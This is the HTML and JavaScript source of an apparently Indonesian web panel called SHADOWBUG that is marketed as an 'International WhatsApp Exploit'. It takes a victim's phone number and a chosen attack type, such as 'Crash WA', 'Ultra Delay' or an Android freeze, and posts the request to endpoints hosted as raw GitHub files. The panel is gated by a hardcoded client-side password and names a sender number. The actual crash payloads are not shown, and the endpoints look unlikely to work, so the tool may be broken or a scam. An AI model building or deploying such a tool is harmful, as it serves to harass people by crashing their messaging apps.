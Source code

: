 <!DOCTYPE html>
<html lang="id">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>⚡ SHADOWBUG SYSTEM ⚡</title>
  <link href="https://fonts.googleapis.com/css2?family=Orbitron:wght@700&family=Montserrat:wght@400;600&display=swap" rel="stylesheet">
  <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css" rel="stylesheet">
  <style>
    /* Loading Screen Styles */
    #loading-screen {
      position: fixed;
      top: 0;
      left: 0;
      width: 100%;
      height: 100%;
      background: #000;
      display: flex;
      flex-direction: column;
      justify-content: center;
      align-items: center;
      z-index: 9999;
      transition: opacity 1s ease-out;
    }
    
    .loading-logo {
      width: 150px;
      height: 150px;
      margin-bottom: 30px;
      animation: pulse 2s infinite alternate, float 3s ease-in-out infinite;
    }
    
    .loading-bar-container {
      width: 300px;
      height: 10px;
      background: rgba(255, 0, 0, 0.2);
      border-radius: 5px;
      overflow: hidden;
      margin-bottom: 20px;
    }
    
    .loading-bar {
      height: 100%;
      width: 0%;
      background: linear-gradient(90deg, #ff0000, #ff4d4d);
      border-radius: 5px;
      transition: width 0.3s ease;
      position: relative;
      overflow: hidden;
    }
    
    .loading-bar::after {
      content: '';
      position: absolute;
      top: 0;
      left: 0;
      right: 0;
      bottom: 0;
      background: linear-gradient(90deg, 
        transparent, 
        rgba(255, 255, 255, 0.8), 
        transparent);
      animation: shimmer 2s infinite;
    }
    
    .loading-text {
      color: #ff4d4d;
      font-family: 'Orbitron', sans-serif;
      font-size: 20px;
      margin-bottom: 10px;
      text-shadow: 0 0 10px #ff0000;
      animation: textGlow 1.5s infinite alternate;
    }
    
    .loading-subtext {
      color: rgba(255, 255, 255, 0.7);
      font-size: 14px;
      margin-top: 20px;
    }
    
    @keyframes pulse {
      0% { transform: scale(1); }
      100% { transform: scale(1.1); }
    }
    
    @keyframes float {
      0%, 100% { transform: translateY(0); }
      50% { transform: translateY(-20px); }
    }
    
    @keyframes shimmer {
      0% { transform: translateX(-100%); }
      100% { transform: translateX(100%); }
    }
    
    @keyframes textGlow {
      0% { text-shadow: 0 0 10px #ff0000; }
      100% { text-shadow: 0 0 20px #ff0000, 0 0 30px #ff4d4d; }
    }
    
    /* Login Screen Styles */
    #login-screen {
      position: fixed;
      top: 0;
      left: 0;
      width: 100%;
      height: 100%;
      background: url('https://files.catbox.moe/5yhl8b.jpg') no-repeat center center;
      background-size: cover;
      display: none;
      flex-direction: column;
      justify-content: center;
      align-items: center;
      z-index: 9998;
      opacity: 0;
      transition: opacity 1s ease;
    }
    
    .login-container {
      background: rgba(10, 10, 10, 0.9);
      border: 1px solid rgba(255, 0, 0, 0.3);
      border-radius: 20px;
      padding: 40px;
      width: 400px;
      max-width: 90%;
      box-shadow: 0 0 30px rgba(255, 0, 0, 0.3);
      transform: scale(0.9);
      transition: all 0.5s ease;
      backdrop-filter: blur(10px);
    }
    
    .login-container.active {
      transform: scale(1);
    }
    
    .login-header {
      text-align: center;
      margin-bottom: 30px;
    }
    
    .login-logo {
      width: 100px;
      height: 100px;
      border-radius: 50%;
      border: 3px solid #ff0000;
      box-shadow: 0 0 20px #ff0000;
      margin-bottom: 20px;
      animation: pulse 2s infinite alternate;
    }
    
    .login-title {
      font-family: 'Orbitron', sans-serif;
      color: #ff0000;
      font-size: 24px;
      margin-bottom: 10px;
      text-shadow: 0 0 10px #ff0000;
    }
    
    .login-subtitle {
      color: rgba(255, 255, 255, 0.7);
      font-size: 14px;
    }
    
    .login-form-group {
      margin-bottom: 20px;
    }
    
    .login-label {
      display: block;
      margin-bottom: 8px;
      color: #ff4d4d;
      font-weight: 600;
    }
    
    .login-input {
      width: 100%;
      padding: 12px 15px;
      background: rgba(0, 0, 0, 0.5);
      border: 1px solid rgba(255, 0, 0, 0.3);
      border-radius: 10px;
      color: white;
      font-size: 16px;
      transition: all 0.3s;
    }
    
    .login-input:focus {
      outline: none;
      border-color: #ff0000;
      box-shadow: 0 0 15px rgba(255, 0, 0, 0.5);
    }
    
    .login-btn {
      width: 100%;
      padding: 14px;
      background: linear-gradient(135deg, #ff0000, #ff4d4d);
      border: none;
      border-radius: 50px;
      color: white;
      font-weight: 600;
      font-size: 16px;
      cursor: pointer;
      transition: all 0.3s;
      margin-top: 20px;
      box-shadow: 0 0 20px rgba(255, 0, 0, 0.5);
    }
    
    .login-btn:hover {
      box-shadow: 0 0 30px rgba(255, 0, 0, 0.8);
      transform: translateY(-2px);
    }
    
    .login-error {
      color: #ff4d4d;
      font-size: 14px;
      margin-top: 10px;
      text-align: center;
      display: none;
    }
    
    /* Main App Styles (shown after login) */
    :root {
      --primary: #ff0000;
      --secondary: #ff4d4d;
      --dark: #0a0a0a;
      --light: #ffffff;
      --neon-glow: 0 0 10px var(--primary), 0 0 20px var(--primary), 0 0 40px var(--primary);
      --glass-bg: rgba(10, 10, 10, 0.85);
      --glass-border: 1px solid rgba(255, 0, 0, 0.25);
    }
    
    * {
      margin: 0;
      padding: 0;
      box-sizing: border-box;
    }
    
    body {
      background: url('https://files.catbox.moe/5yhl8b.jpg') no-repeat center center fixed;
      background-size: cover;
      color: var(--light);
      font-family: 'Montserrat', sans-serif;
      min-height: 100vh;
      overflow-x: hidden;
      position: relative;
    }
    
    #particles-js {
      position: fixed;
      width: 100%;
      height: 100%;
      z-index: 0;
      background: rgba(0, 0, 0, 0.7);
    }
    
    .container {
      position: relative;
      z-index: 2;
      max-width: 500px;
      width: 95%;
      margin: 2rem auto;
      display: none;
    }
    
    .card {
      background: var(--glass-bg);
      backdrop-filter: blur(12px);
      -webkit-backdrop-filter: blur(12px);
      border: var(--glass-border);
      border-radius: 20px;
      padding: 2rem;
      box-shadow: 0 0 30px rgba(255, 0, 0, 0.2);
      margin-bottom: 2rem;
      transition: all 0.3s ease;
    }
    
    .card:hover {
      box-shadow: 0 0 50px rgba(255, 0, 0, 0.4);
      transform: translateY(-5px);
    }
    
    .header {
      text-align: center;
      margin-bottom: 2rem;
    }
    
    .logo {
      width: 80px;
      height: 80px;
      border-radius: 50%;
      border: 3px solid var(--primary);
      object-fit: cover;
      margin-bottom: 1rem;
      box-shadow: var(--neon-glow);
    }
    
    .title {
      font-family: 'Orbitron', sans-serif;
      color: var(--primary);
      font-size: 2rem;
      margin-bottom: 0.5rem;
      text-shadow: var(--neon-glow);
      letter-spacing: 2px;
    }
    
    .subtitle {
      color: var(--secondary);
      font-size: 0.9rem;
      opacity: 0.8;
    }
    
    .form-group {
      margin-bottom: 1.5rem;
    }
    
    .form-label {
      display: block;
      margin-bottom: 0.5rem;
      color: var(--secondary);
      font-weight: 600;
    }
    
    .form-input {
      width: 100%;
      padding: 12px 15px;
      background: rgba(0, 0, 0, 0.5);
      border: 1px solid rgba(255, 0, 0, 0.3);
      border-radius: 10px;
      color: var(--light);
      font-size: 1rem;
      transition: all 0.3s;
    }
    
    .form-input:focus {
      outline: none;
      border-color: var(--primary);
      box-shadow: 0 0 15px rgba(255, 0, 0, 0.5);
      background: rgba(255, 0, 0, 0.1);
    }
    
    .bug-options {
      display: grid;
      grid-template-columns: repeat(2, 1fr);
      gap: 1rem;
      margin-bottom: 2rem;
    }
    
    .bug-card {
      background: rgba(0, 0, 0, 0.5);
      border: 1px solid rgba(255, 0, 0, 0.3);
      border-radius: 15px;
      padding: 1rem;
      display: flex;
      align-items: center;
      gap: 0.8rem;
      cursor: pointer;
      transition: all 0.3s;
    }
    
    .bug-card i {
      font-size: 1.2rem;
      color: var(--primary);
    }
    
    .bug-card:hover {
      background: rgba(255, 0, 0, 0.1);
      transform: scale(1.05);
      box-shadow: 0 0 15px rgba(255, 0, 0, 0.3);
    }
    
    .bug-card.active {
      border: 2px solid var(--primary);
      box-shadow: 0 0 20px var(--primary);
      background: rgba(255, 0, 0, 0.2);
    }
    
    .btn {
      width: 100%;
      padding: 14px;
      border-radius: 50px;
      font-size: 1rem;
      font-weight: 600;
      cursor: pointer;
      display: flex;
      align-items: center;
      justify-content: center;
      gap: 10px;
      transition: all 0.3s;
      border: none;
    }
    
    .btn-primary {
      background: linear-gradient(135deg, var(--primary), var(--secondary);
      color: var(--dark);
      box-shadow: 0 0 20px rgba(255, 0, 0, 0.5);
    }
    
    .btn-primary:hover {
      box-shadow: 0 0 30px rgba(255, 0, 0, 0.8);
      transform: translateY(-2px);
    }
    
    .btn-secondary {
      background: rgba(255, 0, 0, 0.1);
      border: 1px solid var(--primary);
      color: var(--primary);
    }
    
    .btn-secondary:hover {
      background: rgba(255, 0, 0, 0.2);
      box-shadow: 0 0 15px rgba(255, 0, 0, 0.3);
    }
    
    .result {
      margin-top: 1rem;
      padding: 1rem;
      border-radius: 10px;
      text-align: center;
      display: none;
    }
    
    .success {
      background: rgba(0, 255, 0, 0.1);
      border: 1px solid rgba(0, 255, 0, 0.3);
      color: #00ff00;
    }
    
    .error {
      background: rgba(255, 0, 0, 0.1);
      border: 1px solid rgba(255, 0, 0, 0.3);
      color: #ff4d4d;
    }
    
    .spinner {
      display: inline-block;
      width: 20px;
      height: 20px;
      border: 3px solid rgba(255, 255, 255, 0.3);
      border-radius: 50%;
      border-top-color: var(--primary);
      animation: spin 1s ease-in-out infinite;
    }
    
    @keyframes spin {
      to { transform: rotate(360deg); }
    }
    
    .popup {
      position: fixed;
      top: 0;
      left: 0;
      width: 100%;
      height: 100%;
      background: rgba(0, 0, 0, 0.9);
      display: flex;
      justify-content: center;
      align-items: center;
      z-index: 1000;
      opacity: 0;
      pointer-events: none;
      transition: opacity 0.3s;
    }
    
    .popup.active {
      opacity: 1;
      pointer-events: all;
    }
    
    .popup-content {
      background: var(--dark);
      border: 1px solid var(--primary);
      border-radius: 15px;
      padding: 2rem;
      max-width: 90%;
      width: 400px;
      text-align: center;
      box-shadow: var(--neon-glow);
      position: relative;
      transform: scale(0.9);
      transition: transform 0.3s;
    }
    
    .popup.active .popup-content {
      transform: scale(1);
    }
    
    .popup-close {
      position: absolute;
      top: 10px;
      right: 15px;
      font-size: 1.5rem;
      color: var(--secondary);
      cursor: pointer;
    }
    
    .popup-title {
      color: var(--primary);
      font-family: 'Orbitron', sans-serif;
      margin-bottom: 1rem;
      text-shadow: var(--neon-glow);
    }
    
    .popup-body {
      margin-bottom: 1.5rem;
      line-height: 1.6;
    }
    
    .sender-info {
      background: rgba(255, 0, 0, 0.1);
      padding: 1rem;
      border-radius: 10px;
      margin: 1rem 0;
      border-left: 3px solid var(--primary);
    }
    
    .footer {
      text-align: center;
      margin-top: 2rem;
      font-size: 0.8rem;
      color: rgba(255, 255, 255, 0.6);
    }
    
    .social-links {
      display: flex;
      justify-content: center;
      gap: 1rem;
      margin-top: 1rem;
    }
    
    .social-link {
      color: var(--primary);
      font-size: 1.2rem;
      transition: all 0.3s;
    }
    
    .social-link:hover {
      color: var(--secondary);
      transform: translateY(-3px);
    }
    
    @media (max-width: 576px) {
      .bug-options {
        grid-template-columns: 1fr;
      }
      .card {
        padding: 1.5rem;
      }
      .login-container {
        padding: 30px 20px;
      }
    }
    
    .neon-text {
      animation: neon-pulse 1.5s infinite alternate;
    }
    
    @keyframes neon-pulse {
      from {
        text-shadow: 0 0 5px var(--primary), 0 0 10px var(--primary);
      }
      to {
        text-shadow: 0 0 10px var(--primary), 0 0 20px var(--primary), 0 0 30px var(--secondary);
      }
    }
    
    .floating {
      animation: floating 3s ease-in-out infinite;
    }
    
    @keyframes floating {
      0%, 100% { transform: translateY(0); }
      50% { transform: translateY(-10px); }
    }
  </style>
</head>
<body>
  <!-- Loading Screen -->
  <div id="loading-screen">
    <img src="https://files.catbox.moe/8yzooh.jpg" class="loading-logo" alt="SHADOWBUG Logo">
    <div class="loading-text">SHADOWBUG SYSTEM</div>
    <div class="loading-bar-container">
      <div class="loading-bar" id="loading-bar"></div>
    </div>
    <div class="loading-subtext">Initializing cyber attack protocols...</div>
  </div>
  
  <!-- Login Screen -->
  <div id="login-screen">
    <div class="login-container">
      <div class="login-header">
        <img src="https://files.catbox.moe/8yzooh.jpg" class="login-logo" alt="SHADOWBUG Logo">
        <h1 class="login-title">SHADOWBUG SYSTEM</h1>
        <p class="login-subtitle">Restricted Access - Authorized Personnel Only</p>
      </div>
      
      <div class="login-form-group">
        <label for="login-username" class="login-label">USERNAME</label>
        <input type="text" id="login-username" class="login-input" placeholder="Enter your username">
      </div>
      
      <div class="login-form-group">
        <label for="login-password" class="login-label">PASSWORD</label>
        <input type="password" id="login-password" class="login-input" placeholder="Enter your password">
      </div>
      
      <div class="login-error" id="login-error">Invalid credentials. Access denied.</div>
      
      <button class="login-btn" id="login-btn">ACCESS SYSTEM</button>
    </div>
  </div>
  
  <!-- Main App Content (shown after login) -->
  <div id="particles-js"></div>
  
  <div class="container">
    <div class="card floating">
      <div class="header">
        <img src="https://files.catbox.moe/8yzooh.jpg" alt="SHADOW INVACTUS Logo" class="logo">
        <h1 class="title neon-text">SHADOW INVACTUS BUG</h1>
        <p class="subtitle">International WhatsApp Exploit</p>
      </div>

      <div class="form-group">
        <label for="target" class="form-label">TARGET NUMBER</label>
        <input type="text" id="target" class="form-input" placeholder="+628xxxxxxx or international number" required>
      </div>

      <div class="form-group">
        <label class="form-label">SELECT BUG TYPE</label>
        <div class="bug-options">
          <div class="bug-card active" data-bug="crashtotal">
            <i class="fas fa-ghost"></i>
            <span>FC Invisible</span>
          </div>
          <div class="bug-card" data-bug="fc">
            <i class="fas fa-bomb"></i>
            <span>Crash WA</span>
          </div>
          <div class="bug-card" data-bug="delay">
            <i class="fas fa-clock"></i>
            <span>Ultra Delay</span>
          </div>
          <div class="bug-card" data-bug="blank">
            <i class="fas fa-eye-slash"></i>
            <span>Blank Message</span>
          </div>
        </div>
      </div>

      <button id="sendBtn" class="btn btn-primary" onclick="sendBug()">
        <i class="fas fa-paper-plane"></i> LAUNCH BUG
      </button>

      <div id="result" class="result"></div>

      <div class="footer">
        <p>Sender Number: <strong>+62 896-7565-2565</strong></p>
        <div class="social-links">
          <a href="https://t.me/rexzzzzx" target="_blank" class="social-link">
            <i class="fab fa-telegram"></i>
          </a>
          <a href="#" class="social-link">
            <i class="fab fa-whatsapp"></i>
          </a>
        </div>
      </div>
    </div>
  </div>

  <div class="popup" id="popup">
    <div class="popup-content">
      <span class="popup-close" onclick="closePopup()">&times;</span>
      <h3 class="popup-title">BUG TERKIRIM!</h3>
      <div class="popup-body">
        <div class="sender-info">
          <p><i class="fas fa-user-secret"></i> <strong>Sender:</strong> +62 896-7565-2565</p>
          <p><i class="fas fa-bullseye"></i> <strong>Target:</strong> <span id="popup-target"></span></p>
          <p><i class="fas fa-bug"></i> <strong>Bug Type:</strong> <span id="popup-type"></span></p>
        </div>
        <p>Payload successfully delivered</p>
      </div>
      <a id="checkTarget" href="#" target="_blank" class="btn btn-secondary">
        <i class="fas fa-search"></i> CHECK TARGET
      </a>
    </div>
  </div>

  <script src="https://cdn.jsdelivr.net/npm/particles.js@2.0.0/particles.min.js"></script>
  <script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
  <script>
    // Loading Screen Animation
    const loadingScreen = document.getElementById('loading-screen');
    const loadingBar = document.getElementById('loading-bar');
    const loginScreen = document.getElementById('login-screen');
    
    // Simulate loading progress
    let progress = 0;
    const loadingInterval = setInterval(() => {
      progress += Math.random() * 10;
      if (progress > 100) progress = 100;
      loadingBar.style.width = `${progress}%`;
      
      if (progress >= 100) {
        clearInterval(loadingInterval);
        loadingScreen.style.opacity = '0';
        setTimeout(() => {
          loadingScreen.style.display = 'none';
          showLoginScreen();
        }, 1000);
      }
    }, 300);
    
    function showLoginScreen() {
      loginScreen.style.display = 'flex';
      setTimeout(() => {
        loginScreen.style.opacity = '1';
        document.querySelector('.login-container').classList.add('active');
      }, 50);
    }
    
    // Login Functionality
    document.getElementById('login-btn').addEventListener('click', function() {
      const username = document.getElementById('login-username').value;
      const password = document.getElementById('login-password').value;
      const errorElement = document.getElementById('login-error');
      
      if (username === 'SHADOWBUG' && password === 'SHADOWBUG123') {
        // Successful login
        errorElement.style.display = 'none';
        document.querySelector('.login-container').classList.remove('active');
        loginScreen.style.opacity = '0';
        
        setTimeout(() => {
          loginScreen.style.display = 'none';
          initializeApp();
        }, 500);
      } else {
        // Failed login
        errorElement.style.display = 'block';
        document.querySelector('.login-container').classList.add('shake');
        setTimeout(() => {
          document.querySelector('.login-container').classList.remove('shake');
        }, 500);
      }
    });
    
    // Add shake animation to CSS
    const style = document.createElement('style');
    style.textContent = `
      .shake {
        animation: shake 0.5s;
      }
      
      @keyframes shake {
        0%, 100% { transform: translateX(0); }
        10%, 30%, 50%, 70%, 90% { transform: translateX(-5px); }
        20%, 40%, 60%, 80% { transform: translateX(5px); }
      }
    `;
    document.head.appendChild(style);
    
    function initializeApp() {
      particlesJS("particles-js", {
        particles: {
          number: { value: 80, density: { enable: true, value_area: 800 }},
          color: { value: "#ff0000" },
          shape: { type: "circle" },
          opacity: { value: 0.5, random: true },
          size: { value: 3, random: true },
          line_linked: {
            enable: true, distance: 150,
            color: "#ff0000", opacity: 0.3, width: 1
          },
          move: { 
            enable: true, 
            speed: 2, 
            direction: "none", 
            random: true,
            out_mode: "bounce"
          }
        },
        interactivity: {
          events: {
            onhover: { enable: true, mode: "repulse" },
            onclick: { enable: false }
          },
          modes: { 
            repulse: { distance: 100, duration: 0.4 } 
          }
        },
        retina_detect: true
      });
      
      document.querySelector('.container').style.display = 'block';
    }
    
    let selectedBug = "crashtotal";
    document.querySelectorAll(".bug-card").forEach(card => {
      card.addEventListener("click", () => {
        document.querySelectorAll(".bug-card").forEach(c => c.classList.remove("active"));
        card.classList.add("active");
        selectedBug = card.getAttribute("data-bug");
      });
    });

    const API_ENDPOINTS = {
      crashtotal: "https://raw.githubusercontent.com/naelku/web-bug/main/api-bug-1",
      fc: "https://raw.githubusercontent.com/naelku/web-bug/main/apifc",
      delay: "https://raw.githubusercontent.com/naelku/web-bug/main/delay",
      blank: "https://raw.githubusercontent.com/naelku/web-bug/main/client",
      andros: "https://raw.githubusercontent.com/naelku/web-bug/main/api-bug-1"
    };

    async function sendBug() {
      const input = document.getElementById("target").value.trim();
      const btn = document.getElementById("sendBtn");
      const resultDiv = document.getElementById("result");

      if (!/^(\+)?(\d{8,15})$/.test(input)) {
        showResult("Invalid international number format!", "error");
        return;
      }

      const targetNumber = formatInternationalNumber(input);
      btn.disabled = true;
      btn.innerHTML = '<span class="spinner"></span> ATTACKING...';

      try {
        let result;
        if (selectedBug === "andros") {
          result = await sendFreezeAndros(targetNumber);
        } else {
          result = await sendApiBug(targetNumber);
        }

        showPopupResult(targetNumber, result);
        showResult(`Bug sent to ${targetNumber}`, "success");
      } catch (error) {
        showResult(`Failed: ${error.message}`, "error");
      }

      btn.disabled = false;
      btn.innerHTML = '<i class="fas fa-paper-plane"></i> LAUNCH BUG';
    }

    function formatInternationalNumber(num) {
      return num.startsWith("+") ? num : `+${num}`;
    }

    async function sendApiBug(targetNumber) {
      const senderNumber = "+6289675652565";
      const payload = {
        sender: senderNumber,
        target: targetNumber,
        type: selectedBug,
        timestamp: Date.now(),
        payload: {
          ws: {
            url: "wss://web.whatsapp.com/ws/chat",
            config: {
              version: ["Array"],
              browser: ["Array"],
              mobile: true
            }
          }
        }
      };

      const response = await axios.post(API_ENDPOINTS[selectedBug], payload);
      return response.data;
    }

    async function sendFreezeAndros(targetNumber) {
      const params = new URLSearchParams({
        target: targetNumber,
        mode: "andros",
        username: "bancet",
        key: "WTW5",
        sender: "+6289675652565",
        country: targetNumber.startsWith("+62") ? "indonesia" : "international"
      });

      const response = await axios.get(`${API_ENDPOINTS.andros}?${params}`);
      if (!response.data.includes("✅ S U C C E S")) {
        throw new Error("Failed to execute Android freeze");
      }
      return response.data;
    }

    function showPopupResult(target, result) {
      document.getElementById("popup-target").textContent = target;
      document.getElementById("popup-type").textContent = selectedBug.toUpperCase();
      document.getElementById("checkTarget").href = `https://wa.me/${target}`;
      document.getElementById("popup").classList.add("active");
    }

    function closePopup() {
      document.getElementById("popup").classList.remove("active");
    }

    function showResult(message, type) {
      const resultDiv = document.getElementById("result");
      resultDiv.textContent = message;
      resultDiv.className = `result ${type}`;
      resultDiv.style.display = "block";
    }
  </script>
</body>
</html>
